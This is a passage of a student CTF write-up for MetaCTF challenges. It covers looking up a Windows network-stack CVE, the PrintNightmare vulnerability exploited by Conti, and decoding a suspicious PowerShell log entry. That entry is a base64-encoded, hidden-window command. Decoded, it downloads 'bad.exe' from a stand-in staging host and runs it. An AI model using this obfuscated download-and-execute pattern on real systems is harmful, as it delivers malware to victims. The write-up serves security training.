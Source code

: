 ### Solution: 
MetaCTF{Ipv4pReceiveRoutingHeader}

I arrived at this solution by using the provided CVE-ID to find an online writeup/description of the attack from McAfee labs, which provided an explanation of the exploit and which function is responsible for the vulnerability. 

Link to McAfee labs post: https://www.mcafee.com/blogs/other-blogs/mcafee-labs/researchers-follow-the-breadcrumbs-the-latest-vulnerabilities-in-windows-network-stack  



## Who Broke the Printer This Time? (200 Points – Reconnaissance) - Jim T

### Instructions: 
Malicious operators typically exploit unpatched vulnerabilities within target environments to gain initial access, escalate privileges, and more.
What recent vulnerability have Conti ransomware operators exploited to run arbitrary code with SYSTEM privileges?
### Solution: 
MetaCTF{CVE-2021-34527}

To find the solution, I looked up keywords such as conti, ransomware and CVE. There were several CVE numbers, but the first result matched the answer’s format and worked upon inputting it.



## My Logs Know What you Did (125 points) - George Z

### Instructions: 
While investigating an incident, you identify a suspicious powershell command that was run on a compromised system ... can you figure out what it was doing?


Given text: C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -noP -sta -w 1 -enc TmV3LU9iamVjdCBTeXN0ZW0uTmV0LldlYkNsaWVudCkuRG93bmxvYWRGaWxlKCdodHRwOi8vTWV0YUNURntzdXBlcl9zdXNfc3Q0Z2luZ19zaXRlX2QwdF9jMG19L19iYWQuZXhlJywnYmFkLmV4ZScpO1N0YXJ0LVByb2Nlc3MgJ2JhZC5leGUn

### Solution: 
MetaCTF{super_sus_st4ging_site_d0t_c0m}

To find this flag I copied the encrypted part of the message into boxentriq.com’s cipher identification tool, which told me it was in Base64 format. Then using the Base64 decoder on the website I was able to return the plaintext equivalent which read “New-ObjectSystem.Net.WebClient).DownloadFile('http://MetaCTF{super_sus_st4ging_site_d0t_c0m}/_bad.exe','bad.exe');Start-Process 'bad.exe'” 

From this plaintext output I was able to pick out the flag: “MetaCTF{super_sus_st4ging_site_d0t_c0m}”



## I Just Wanna Run (125 points) - Mike F
